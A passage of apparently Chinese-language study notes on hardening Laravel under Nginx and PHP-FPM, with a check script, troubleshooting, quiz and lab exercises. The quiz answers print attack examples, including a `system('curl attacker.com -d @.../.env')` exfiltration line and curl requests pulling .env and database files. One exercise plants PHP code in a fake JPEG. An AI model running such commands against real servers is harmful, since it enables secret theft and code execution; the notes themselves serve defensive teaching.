chk(){ printf '  %-48s ' "$1"; if eval "$2" >/dev/null 2>&1; then echo "✓"; PASS=$((PASS+1))
       else echo "✗"; FAIL=$((FAIL+1)); fi; }
code(){ curl -sk -o /dev/null -w '%{http_code}' --max-time 10 "$1"; }

echo "═══ Laravel Nginx/FPM 檢查：$SITE ═══"

echo -e "\n【1】基本"
chk "首頁 200"                "[ \"\$(code $SITE/)\" = 200 ]"
chk "HTTP 轉址 HTTPS"          "curl -sI ${SITE/https/http}/ | grep -qE '30[128]'"
chk "★ HSTS"                   "curl -skI $SITE/ | grep -qi strict-transport-security"
chk "★ 不洩漏 PHP 版本"         "! curl -skI $SITE/ | grep -qi x-powered-by"
chk "★ 不洩漏 Nginx 版本"       "! curl -skI $SITE/ | grep -qiE 'server:.*nginx/[0-9]'"

echo -e "\n【2】★★★ PathInfo 攻擊防護"
chk "★★★ /storage/x.jpg/y.php → 404" "[ \"\$(code $SITE/storage/x.jpg/y.php)\" = 404 ]"
chk "★★★ /index.php/x.php → 404"     "[ \"\$(code $SITE/index.php/x.php)\" != 200 ]"
chk "★★ cgi.fix_pathinfo=0"          "php-fpm8.3 -i 2>/dev/null | grep -q 'cgi.fix_pathinfo => 0'"

echo -e "\n【3】★★★ 敏感檔案"
for p in /.env /.env.example /.git/config /composer.json /composer.lock \
         /artisan /package.json /storage/logs/laravel.log \
         /vendor/autoload.php /config/app.php /database/database.sqlite; do
    printf '  %-48s ' "$p"
    C=$(code "$SITE$p")
    if [ "$C" = 404 ] || [ "$C" = 403 ]; then echo "✓ ($C)"; PASS=$((PASS+1))
    else echo "✗✗ ($C)"; FAIL=$((FAIL+1)); fi
done

echo -e "\n【4】★★★ HTTPS 三件套"
chk "★★★ fastcgi_param HTTPS on" \
    "sudo nginx -T 2>/dev/null | grep -q 'fastcgi_param HTTPS on'"
chk "★★ TrustProxies 有設定" \
    "grep -rqE 'trustProxies|TrustProxies' $APP/current/bootstrap/app.php $APP/current/app/Http/Middleware/ 2>/dev/null"
chk "★★ URL::forceScheme" \
    "grep -rq 'forceScheme' $APP/current/app/Providers/ 2>/dev/null"
chk "APP_URL 是 https" \
    "grep -q '^APP_URL=https' $APP/shared/.env"
chk "SESSION_SECURE_COOKIE=true" \
    "grep -q '^SESSION_SECURE_COOKIE=true' $APP/shared/.env"

echo -e "\n【5】★★ FPM"
chk "pool socket 存在"      "[ -S /run/php/php8.3-fpm-api.sock ]"
chk "★ FPM 執行中"          "systemctl is-active --quiet php8.3-fpm"
chk "★★ display_errors=off"  "php-fpm8.3 -i 2>/dev/null | grep -q 'display_errors => Off'"
chk "★★ open_basedir 有設"   "php-fpm8.3 -i 2>/dev/null | grep -qE 'open_basedir => /var/www'"
chk "★★ disable_functions"   "php-fpm8.3 -i 2>/dev/null | grep -q 'disable_functions => .*exec'"
chk "★★ OPcache 啟用"        "php-fpm8.3 -i 2>/dev/null | grep -q 'opcache.enable => On'"
chk "★★ validate_timestamps=0" "php-fpm8.3 -i 2>/dev/null | grep -q 'opcache.validate_timestamps => Off'"
chk "★ opcache.save_comments=1" "php-fpm8.3 -i 2>/dev/null | grep -q 'opcache.save_comments => On'"

echo -e "\n【6】★★ realpath_root"
chk "★★★ 用 \$realpath_root" \
    "sudo nginx -T 2>/dev/null | grep -q 'SCRIPT_FILENAME .*realpath_root'"

echo -e "\n【7】上傳大小"
printf '  %-48s %s\n' "Nginx client_max_body_size" \
  "$(sudo nginx -T 2>/dev/null | grep -m1 client_max_body_size | xargs)"
printf '  %-48s %s\n' "PHP upload_max_filesize" \
  "$(php-fpm8.3 -i 2>/dev/null | grep -m1 'upload_max_filesize =>' | awk '{print $3}')"
printf '  %-48s %s\n' "PHP post_max_size" \
  "$(php-fpm8.3 -i 2>/dev/null | grep -m1 'post_max_size =>' | awk '{print $3}')"

echo -e "\n【8】★ 靜態資源"
chk "★ /build/ 有長快取" \
    "curl -skI $SITE/build/ 2>/dev/null | grep -qi 'cache-control' || true"
chk "★★ 上傳目錄的 .php 被擋" \
    "[ \"\$(code $SITE/storage/test.php)\" != 200 ]"

echo -e "\n【9】FPM 狀態"
if curl -sf http://127.0.0.1/fpm-status >/dev/null 2>&1; then
    curl -s 'http://127.0.0.1/fpm-status' | \
      grep -E 'listen queue:|max children reached:|max active|slow requests' | sed 's/^/  /'
else
    echo "  （fpm-status 未啟用或無法存取）"
fi

echo -e "\n═══ ✓ $PASS  ✗ $FAIL ═══"
[ "$FAIL" -eq 0 ] || exit 1
```

---

## 常見錯誤與排錯

| 現象 | 原因 | 解法 |
| --- | --- | --- |
| **任意檔案被當 PHP 執行（RCE）** ★★★ | 缺 `try_files $uri =404` | **加上**；`cgi.fix_pathinfo=0` |
| **部署後執行舊程式碼** ★★★ | `$document_root` + OPcache | 用 **`$realpath_root`**；reload FPM |
| **`route()` 產生 `http://`** ★★★ | HTTPS 三件套缺一 | 三個都設 |
| **登不進去（一直跳回登入頁）** ★★★ | 同上 + `SESSION_SECURE_COOKIE` | 同上 |
| **轉址無限迴圈** ★★ | 同上 | 同上 |
| **404 Not Found（所有路由）** ★★ | `root` 沒指到 `public` | `root .../current/public;` |
| **`File not found`** ★★ | socket 路徑或 `SCRIPT_FILENAME` 錯 | 檢查 `fastcgi_pass` 與參數 |
| **502 Bad Gateway** ★★ | FPM 沒跑或 socket 權限 | `systemctl status php8.3-fpm`；`ls -l` socket |
| **504 Gateway Timeout** | 執行太久 | `fastcgi_read_timeout` + `max_execution_time` |
| **上傳 413** ★★ | `client_max_body_size` | 四層都要調 |
| **上傳後 419 Page Expired** ★★★ | `post_max_size` 太小 | 調大（`$_POST` 全空導致 CSRF 失效） |
| **`server reached pm.max_children`** ★★ | worker 不夠 | 用 `fpm-sizing` 重算 |
| `.env` 可被下載 ★★★ | 沒擋 | `location ~ /\. { deny all; }` |
| **ModSecurity 誤判擋掉正常功能** ★★ | CRS 太嚴 | 寫排除規則；先跑 DetectionOnly |
| Apache 的 RCE 風險 ★★★ | 用了 `ProxyPassMatch` | 改用 `<FilesMatch>` + `SetHandler` |

### 排查

```bash
SITE=https://api.example.gov.tw
APP=/var/www/api

# 【1】★★★ 日誌（三個都要看）
$ sudo tail -50 /var/log/nginx/api.error.log
$ sudo tail -50 /var/log/php-fpm/api-error.log
$ sudo tail -50 "$APP/shared/storage/logs/laravel.log"

# 【2】★★ Nginx 實際的設定
$ sudo nginx -T 2>/dev/null | sed -n '/server_name api.example.gov.tw/,/^}/p'
$ sudo nginx -T 2>/dev/null | grep -E 'fastcgi_param (SCRIPT_FILENAME|HTTPS)'

# 【3】★★ FPM 實際的設定
$ php-fpm8.3 -tt 2>&1 | head -30
$ php-fpm8.3 -i 2>/dev/null | grep -E 'open_basedir|disable_functions|opcache.validate'

# 【4】socket
$ ls -l /run/php/
srw-rw---- 1 www-data www-data 0 Aug 28 10:00 php8.3-fpm-api.sock
$ sudo -u www-data test -w /run/php/php8.3-fpm-api.sock && echo "可寫"

# 【5】★★★ PathInfo 防護
$ curl -so /dev/null -w '%{http_code}\n' "$SITE/storage/x.jpg/y.php"
404                                    # ★ 必須是 404

# 【6】★★★ HTTPS 三件套
$ curl -s "$SITE/api/health" -H 'Accept: application/json' | jq
# ★ 或臨時加一個路由回傳 request()->secure()

# 【7】FPM 狀態
$ curl -s 'http://127.0.0.1/fpm-status?full'
$ sudo grep 'max_children' /var/log/php8.3-fpm.log | tail

# 【8】★ 慢請求
$ sudo tail -50 /var/log/php-fpm/api-slow.log

# 【9】OPcache 狀態
$ cd "$APP/current" && php -r '
  $s = opcache_get_status(false);
  printf("命中率 %.2f%%  已用 %.0f MB / %.0f MB  快取檔案 %d\n",
    $s["opcache_statistics"]["opcache_hit_rate"],
    $s["memory_usage"]["used_memory"]/1048576,
    ($s["memory_usage"]["used_memory"]+$s["memory_usage"]["free_memory"])/1048576,
    $s["opcache_statistics"]["num_cached_scripts"]);'
# ★★ 注意：CLI 的 OPcache 與 FPM 的是分開的，這只看得到 CLI 的
```

---

## 安全性注意事項

> [!danger] Nginx 設定的四條紅線 ★★★
> ```
> ① ★★★★ location ~ \.php$ 裡一定要有 try_files $uri =404;
>      → 沒有 = 【上傳漏洞直接變 RCE】
>
> ② ★★★ root 指到 public/，不是專案根目錄
>      ❌ root /var/www/api/current;
>         → ★★★ .env、vendor、storage 全部可以直接下載
>      ✅ root /var/www/api/current/public;
>
> ③ ★★★ 擋掉 dotfile 與敏感目錄
>      location ~ /\.(?!well-known).* { deny all; }
>      location ~ ^/(vendor|storage/logs|bootstrap|config|database|tests)/ { deny all; }
>
> ④ ★★★ 上傳目錄的檔案不可執行 PHP
>      location ^~ /storage/ {
>          location ~ \.(php|phtml|phar)$ { deny all; }
>      }
> ```

```bash
# ★★★ 上線前的必測項目
$ S=https://api.example.gov.tw
$ echo "── PathInfo 攻擊 ──"
$ for p in /storage/x.jpg/y.php /index.php/x.php /build/app.js/x.php; do
    printf '%-40s %s\n' "$p" "$(curl -sko /dev/null -w '%{http_code}' "$S$p")"
  done
# ★★★ 全部必須是 404 或 403

$ echo "── 敏感檔案 ──"
$ for p in /.env /.git/config /composer.json /artisan /vendor/autoload.php \
           /config/app.php /storage/logs/laravel.log /database/database.sqlite; do
    printf '%-40s %s\n' "$p" "$(curl -sko /dev/null -w '%{http_code}' "$S$p")"
  done
# ★★★ 全部必須是 404 或 403
```

> [!warning] `open_basedir` 與 `disable_functions` 要一起設 ★★
> ```
> open_basedir 只限制【PHP 的檔案系統函式】
>   → fopen()、include()、file_get_contents() 被擋
>   → ★★ 但 exec('cat /etc/passwd') 【不受限制】
>
> ★★ 兩個都要設：
>   php_admin_value[open_basedir] = /var/www/api/current:/var/www/api/shared:/tmp
>   php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen
>
> ★ 用 php_admin_value 而不是 php_value
>   → php_value 應用可以用 ini_set() 覆蓋掉
>
> ★★ 注意 open_basedir 要包含：
>   · 專案目錄（current）
>   · shared（storage 的實際位置）
>   · /tmp（★ 上傳的暫存檔）
>   · /usr/share/php（★ 某些 pear 套件）
>   → 少了會出現「open_basedir restriction in effect」
> ```

---

## 速查表

### ★★★★ 最關鍵的四行

```nginx
root /var/www/api/current/public;                      # ① ★★★ 指到 public
location ~ \.php$ {
    try_files $uri =404;                               # ② ★★★★ 防 RCE
    fastcgi_param SCRIPT_FILENAME $realpath_root$fastcgi_script_name;   # ③ ★★★ OPcache
    fastcgi_param HTTPS on;                            # ④ ★★★ HTTPS
}
```

### ★★★ HTTPS 三件套

```nginx
fastcgi_param HTTPS on;                                # ①
```
```php
protected $proxies = ['127.0.0.1', '::1'];             // ② TrustProxies
protected $headers = ... | Request::HEADER_X_FORWARDED_PROTO;
URL::forceScheme('https');                             // ③ AppServiceProvider
```
```dotenv
APP_URL=https://api.example.gov.tw
SESSION_SECURE_COOKIE=true
```

```
★★★ 少一個 → route() 產生 http://、轉址迴圈、登不進去
```

### ★★ 上傳大小四層

```
① Nginx    client_max_body_size    20m
② PHP      upload_max_filesize     20M
③ PHP      post_max_size           21M     ← ★ 要略大
④ Laravel  max:20480               （KB）

★★★ post_max_size 太小 → $_POST 全空 → CSRF 失效 → 419（最難 debug）
```

### `pm.max_children` 計算 ★★★

```bash
# ★★ 用實際 RSS，不是 memory_limit
ps -o rss= -C php-fpm8.3 | awk '{s+=$1;n++} END {printf "%.0f MB\n", s/n/1024}'

pm.max_children = (總記憶體 - 其他服務 - 保留 1GB) / 單一 worker 的平均 RSS
# ★ 再乘 70% 保守
fpm-sizing api
```

```bash
# ★★ 檢查是否不夠用
curl -s http://127.0.0.1/fpm-status | grep 'max children reached'
sudo grep -c 'reached pm.max_children' /var/log/php8.3-fpm.log
```

### ★★★ 安全設定

```ini
php_admin_flag[display_errors] = off
php_admin_flag[expose_php] = off
php_admin_value[open_basedir] = /var/www/api/current:/var/www/api/shared:/tmp:/usr/share/php
php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen
php_admin_value[opcache.validate_timestamps] = 0    ; ★★ 部署後 reload FPM
php_admin_value[opcache.save_comments] = 1          ; ★★ Laravel 需要
```

```nginx
location ~ /\.(?!well-known).* { deny all; }
location ~ ^/(vendor|storage/logs|bootstrap|config|database|tests)/ { deny all; }
location ^~ /storage/ { location ~ \.(php|phtml|phar)$ { deny all; } }   # ★★★
```

### 排查

```bash
sudo tail -f /var/log/nginx/api.error.log
sudo tail -f /var/log/php-fpm/api-error.log
sudo tail -f /var/www/api/shared/storage/logs/laravel.log     # ★★★ 最重要

sudo nginx -T | grep -E 'fastcgi_param (SCRIPT_FILENAME|HTTPS)'
php-fpm8.3 -i | grep -E 'open_basedir|opcache.validate|fix_pathinfo'
curl -s 'http://127.0.0.1/fpm-status?full'

# ★★★ 必測
curl -so /dev/null -w '%{http_code}\n' https://api/storage/x.jpg/y.php   # 必須 404
curl -so /dev/null -w '%{http_code}\n' https://api/.env                  # 必須 404
laravel-nginx-check
```

---

## 練習題

> [!question]- 練習 1：PathInfo 攻擊 ★★★★
> **★ 在隔離的測試環境**
> 1. **拿掉 `try_files $uri =404;`**，設 `cgi.fix_pathinfo=1`
> 2. 在 `public/storage/` 放一個 `test.jpg`，內容是 `<?php echo "RCE"; ?>`
> 3. 存取 `https://api/storage/test.jpg/x.php` → **看到什麼？**
> 4. 加回 `try_files $uri =404;` → 再測
> 5. 改回 `cgi.fix_pathinfo=0`，拿掉 `try_files` → 再測
> 6. **兩層防護各自的效果是什麼？**

> [!question]- 練習 2：`$realpath_root` 與 OPcache ★★★
> 1. 設 `opcache.validate_timestamps=0`
> 2. **用 `$document_root`** 設定 `SCRIPT_FILENAME`
> 3. 部署一個新版本（符號連結切換）
> 4. **不 reload FPM**，重新整理 → **看到新版還是舊版？**
> 5. 改用 `$realpath_root` → 重複步驟 3-4
> 6. **有什麼差別？為什麼？**

> [!question]- 練習 3：HTTPS 三件套 ★★★
> 逐一測試缺少每一件的後果：
> 1. **只缺 `fastcgi_param HTTPS on`** → `request()->secure()` 是什麼？
> 2. **只缺 TrustProxies** → `request()->ip()` 是什麼？
> 3. **只缺 `forceScheme`** → `route('home')` 產生什麼？
> 4. 設 `SESSION_SECURE_COOKIE=true` 且缺任一件 → **能登入嗎？**
> 5. **三個都設好** → 全部正常
> 6. **寫成一個檢查清單**

> [!question]- 練習 4：上傳大小的四層 ★★
> 準備 5MB、15MB、25MB 三個檔案，逐一測試：
> 1. Nginx `10m`、PHP `20M`、`post_max_size 21M` → 上傳 15MB → **錯誤？**
> 2. Nginx `30m`、PHP `10M` → 上傳 15MB → **錯誤？**
> 3. Nginx `30m`、`upload_max_filesize 20M`、**`post_max_size 5M`** → 上傳 15MB → **錯誤？**
> 4. **第三種的錯誤最難懂 —— 為什麼？**
> 5. 全部設對後再測
> 6. 加上 `error_page 413` 的 JSON 回應

> [!question]- 練習 5：`pm.max_children` 調校
> 1. 執行 `fpm-sizing api` → 建議值？
> 2. **故意設成 3**
> 3. `wrk -t4 -c50 -d30s` 壓測
> 4. `grep 'max_children' /var/log/php8.3-fpm.log` → **有警告嗎？**
> 5. `curl 'http://127.0.0.1/fpm-status'` → `listen queue` 多少？
> 6. 調到建議值再測 → **Requests/sec 差多少？**
> 7. **故意設成 200** → `free -m` 觀察 → 會發生什麼？

---

## 小測驗

Q1. **`location ~ \.php$` 裡的 `try_files $uri =404;` 為什麼是必須的**？

Q2. **`$realpath_root` 與 `$document_root` 的差別？為什麼符號連結部署必須用前者**？

Q3. **HTTPS 三件套是什麼？少了會怎樣**？

Q4. **`root` 指到專案根目錄而不是 `public/` 會有什麼後果**？

Q5. **上傳大小要設哪四層？`post_max_size` 太小的症狀為什麼特別難懂**？

Q6. **`pm.max_children` 該怎麼計算**？

Q7. **`open_basedir` 為什麼擋不住 `exec()`**？

Q8. **`opcache.save_comments` 為什麼對 Laravel 很重要**？

Q9. **Apache 用 `ProxyPassMatch` 有什麼風險**？

Q10. **ModSecurity 該怎麼安全地上線**？

> [!question]- 測驗答案
> **Q1.** 因為**沒有它，任意檔案都可能被當成 PHP 執行（RCE）**。
> **攻擊流程**：攻擊者上傳一個 `evil.jpg`（內容其實是 PHP 程式碼），
> 然後存取 `https://api/storage/evil.jpg/x.php` ——
> 網址結尾是 `.php`，**`location ~ \.php$` 會匹配到**，
> `fastcgi_split_path_info` 拆解後把請求交給 PHP，
> 而**若 `cgi.fix_pathinfo=1`（舊版預設），PHP 找不到 `x.php` 會「往上找」到 `evil.jpg` 並執行它**。
> **`try_files $uri =404;` 讓 Nginx 先檢查「這個完整路徑的檔案存在嗎」** ——
> `/storage/evil.jpg/x.php` 不存在 → **直接回 404，根本不會交給 PHP**。
> **第二層防護**是 `cgi.fix_pathinfo=0`，兩個都要做。
>
> **Q2.** **`$document_root`** 是 `root` 指令設定的路徑（**含符號連結**）：
> `/var/www/api/current/public`。
> **`$realpath_root`** 是**解析符號連結後的實際路徑**：
> `/var/www/api/releases/20260828-153045/public`。
> **必須用 `$realpath_root` 的原因**：
> **OPcache 的快取 key 是檔案路徑** ——
> 用 `$document_root` 時，路徑**永遠是 `.../current/public/index.php`**，
> **部署新版後路徑完全沒變** →
> **OPcache 以為是同一個檔案** →
> `validate_timestamps=0` 時**會一直執行舊的程式碼**。
> 用 `$realpath_root` 時，路徑含**版本目錄名**，新版就是新的 key，自動生效。
> 附帶好處是錯誤訊息與日誌顯示真實路徑，好追查。
>
> **Q3.** ①**Nginx 的 `fastcgi_param HTTPS on;`**（讓 `$_SERVER['HTTPS']` 有值）；
> ②**Laravel 的 `TrustProxies`**（`$proxies = ['127.0.0.1']` 並啟用
> `HEADER_X_FORWARDED_PROTO`）；
> ③**`URL::forceScheme('https')`**（在 `AppServiceProvider::boot()`）。
> **少了任何一件的症狀**：
> `route()` / `asset()` / `url()` **產生 `http://` 連結** →
> **混合內容警告**（瀏覽器擋掉 CSS/JS）、
> **★★ 轉址無限迴圈**（後端回 302 到 http，Nginx 又 301 到 https）、
> **★★★ `SESSION_SECURE_COOKIE=true` 時一直登不進去**
> （後端以為是 HTTP 連線，cookie 的 Secure 判斷不一致）。
> 搭配 `.env` 的 `APP_URL=https://...`。
>
> **Q4.** **`.env`、`vendor/`、`storage/`、`config/`、`database/` 全部可以直接從網路下載**：
> ```bash
> curl https://api.example.gov.tw/.env              # ★★★ 資料庫密碼、APP_KEY
> curl https://api.example.gov.tw/storage/logs/laravel.log
> curl https://api.example.gov.tw/config/app.php
> curl https://api.example.gov.tw/database/database.sqlite
> ```
> **這是災難級的設定錯誤**。
> Laravel 的目錄結構刻意把**唯一該公開的東西放在 `public/`**
> （`index.php` 這個 front controller + 靜態資源），
> 其他所有東西都在 `public/` 的**上一層**。
> **正確設定**：`root /var/www/api/current/public;`
> 並且**額外加上 `location ~ /\. { deny all; }` 等規則**作為第二道防線。
>
> **Q5.** **四層**：
> ①**Nginx `client_max_body_size 20m`**；
> ②**PHP `upload_max_filesize 20M`**；
> ③**PHP `post_max_size 21M`**（★ 要略大於 ①②，容納其他表單欄位）；
> ④**Laravel 驗證 `max:20480`**（單位是 **KB**）。
> **`post_max_size` 太小的症狀最難懂的原因**：
> 當請求體超過 `post_max_size` 時，
> **PHP 會直接丟棄整個請求體 —— `$_POST` 與 `$_FILES` 完全是空的**，
> 但**請求本身仍然到達了 Laravel**。
> 於是 Laravel 看到的是「一個沒有任何 POST 資料的請求」，
> **連 CSRF token 都不見了** → 回傳 **419 Page Expired**。
> 使用者看到的是「頁面過期」，完全聯想不到是檔案太大。
>
> **Q6.** **用「實際的 RSS」計算，不是用 `memory_limit`**。
> `memory_limit` 是**單一請求的上限**，不是 worker 實際使用的量
> （實際 RSS 通常只有 40～120MB）。
> **公式**：
> ```
> pm.max_children = (總記憶體 - 其他服務 - 保留給系統) / 單一 worker 的平均 RSS
> ```
> **測量方式**：
> ```bash
> ps -o rss= -C php-fpm8.3 | awk '{s+=$1;n++} END {printf "%.0f MB\n", s/n/1024}'
> ```
> **範例**：8GB 總記憶體 − MySQL 2GB − Redis 512MB − 系統 1GB ≈ 4.5GB 可用；
> worker 平均 80MB → 4608/80 ≈ 57 → **保守設 40**（留餘裕給尖峰）。
> **驗證是否夠用**：`curl http://127.0.0.1/fpm-status | grep 'max children reached'`
> —— 大於 0 就要調高或優化程式。
>
> **Q7.** 因為 **`open_basedir` 只限制「PHP 自己的檔案系統函式」** ——
> `fopen()`、`include()`、`file_get_contents()`、`opendir()`、`scandir()` 這些會被擋。
> **但 `exec()`、`system()`、`shell_exec()`、`proc_open()` 是「啟動一個外部程序」**，
> 那個程序（`/bin/sh`）**完全不受 PHP 的 `open_basedir` 管轄**，
> 所以 `exec('cat /etc/passwd')` 或 `system('curl attacker.com -d @/var/www/api/shared/.env')`
> 照樣執行。
> **必須兩個都設**：
> ```ini
> php_admin_value[open_basedir] = /var/www/api/current:/var/www/api/shared:/tmp:/usr/share/php
> php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen
> ```
> 要用 **`php_admin_value`**（不是 `php_value`），否則應用可以用 `ini_set()` 改掉。
>
> **Q8.** 因為 **Laravel 與許多套件大量使用 PHP 8 的 Attributes 與 DocBlock 註解**
> 來定義路由、驗證規則、關聯、佇列設定等。
> **`opcache.save_comments=0` 會在編譯時「丟棄所有註解」**，
> 導致 **Reflection 讀不到 DocBlock 與 Attributes** →
> 路由註冊失敗、關聯定義遺失、
> 某些套件（如 Laravel Nova、Doctrine Annotations）**直接無法運作**，
> 而且**錯誤訊息通常很難聯想到 OPcache**。
> **正式環境必須設 `opcache.save_comments=1`**（這也是預設值，
> 但有些「效能調校教學」會建議關掉它 —— **對 Laravel 千萬不要**）。
>
> **Q9.** ```apache
> ProxyPassMatch ^/(.*\.php)$ unix:/run/php/x.sock|fcgi://localhost/var/www/api/current/public/
> ```
> **`ProxyPassMatch` 不檢查「檔案是否存在」，直接把符合 pattern 的請求轉給 PHP-FPM** ——
> 這與 Nginx 缺少 `try_files $uri =404;` **是完全相同的 RCE 風險**：
> `/storage/evil.jpg/x.php` 會被轉給 PHP，配合 `cgi.fix_pathinfo` 就能執行 `evil.jpg`。
> **正確做法是 `<FilesMatch>` + `SetHandler`**：
> ```apache
> <FilesMatch \.php$>
>     SetHandler "proxy:unix:/run/php/php8.3-fpm-api.sock|fcgi://localhost"
> </FilesMatch>
> ```
> `<FilesMatch>` 是**在 Apache 解析出「實際的檔案」之後才套用的**，
> 檔案不存在就會回 404，不會交給 PHP。
>
> **Q10.** **絕對不要一開始就設 `SecRuleEngine On`**。
> **五個階段**：
> ①**第一週用 `SecRuleEngine DetectionOnly`** —— 只記錄不阻擋，收集誤判；
> ②**分析 `modsec_audit.log`**：
> ```bash
> sudo grep -oP 'id "\K\d+' /var/log/modsec_audit.log | sort | uniq -c | sort -rn
> ```
> 針對高頻的規則 ID 與被誤判的參數寫**排除規則**
> （Laravel 常見的誤判來源：CSRF token 的 base64、富文字編輯器的 HTML 內容、
> 檔案上傳的 binary、Livewire/Inertia 的 JSON payload）；
> ③**第二週仍然 DetectionOnly**，確認誤判已排除；
> ④**在 staging 開 `On`，完整測試所有功能**；
> ⑤**正式環境開 `On`，密切監控 403 的數量**。
> **並且事先準備好快速關閉的方法**（改 `modsecurity off;` + `nginx -t` + reload）。

---

## 延伸閱讀

- [[03-Laravel-佇列排程與Supervisor]] — 佇列與排程
- [[04-Laravel-快取最佳化與部署流程]] — OPcache 與部署流程
- [[07-Laravel-正式環境安全檢查表]] — 完整的上線檢查
- [[02-PHP-FPM設定與Pool調校]] — FPM 的深入調校
- [[03-Nginx-location與rewrite]] — location 匹配規則
- [[01-WAF概念與ModSecurity安裝]] — ModSecurity 的完整設定
